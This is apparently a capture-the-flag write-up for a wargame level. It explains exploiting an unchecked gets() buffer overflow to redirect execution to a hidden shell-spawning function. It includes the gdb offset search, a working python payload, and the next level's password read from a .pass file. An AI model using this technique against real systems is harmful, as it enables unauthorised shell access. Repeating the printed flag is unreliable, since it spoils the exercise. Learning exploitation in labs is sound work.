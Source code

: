 # Level1

This binary has a `run()` function that calls `/bin/sh`, however it is not called by `main()`   
There is an unprotected `gets()` `in main()` that will allow us to perform a *buffer overflow attack*   
This will consist of writing up on the stack by inputing more characters in gets() than the available buffer size   
By overwriting the RET value with the address of `run()` we can force its execution   

Using the pattern generator at https://wiremask.eu/tools/buffer-overflow-pattern-generator/ we can find exactly at what offset to write the address after the buffer

```
gdb level1
(gdb) r
(gdb) Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()	; offset 76
```

```
python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" > /tmp/inj1
cat /tmp/inj1 - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
